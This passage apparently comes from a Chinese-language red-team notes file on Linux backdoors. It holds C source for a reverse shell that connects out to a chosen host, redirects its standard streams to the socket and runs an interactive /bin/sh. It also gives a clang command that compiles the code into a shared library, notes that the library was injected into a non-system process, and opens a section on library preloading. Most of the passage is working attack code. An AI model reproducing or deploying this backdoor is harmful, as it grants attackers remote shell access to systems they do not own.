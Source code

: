 ```c
        struct hostent *h;
        struct sockaddr_in server;
        
        if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
            exit(-1);
        }

        server.sin_family = AF_INET;
        server.sin_port = htons(port);
       
        if(! inet_pton(AF_INET, host, &addr)){
            if((h = gethostbyname(host)) == NULL) {
                exit(-1);
            }
            host = inet_ntoa(*((struct in_addr *)h->h_addr));
        }

        server.sin_addr.s_addr = inet_addr(host);

        if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
            exit(-1);
        }
        
        dup2(sock, 0);
        dup2(sock, 1);
        dup2(sock, 2);
        close(sock);
        execl("/bin/sh", "/bin/sh", "-i", NULL);
    }
    return 0;
}

int main()
{
    re_shell();
    return 0;
}
```

将上述文件编译成so文件

```C
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o back.so -lpthread -fPIC back.c
```

尝试注入系统进程失败，找一个非系统进程注入：

![image-20200329172930845](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200329172930845.png)





### 11. 预加载动态链接库
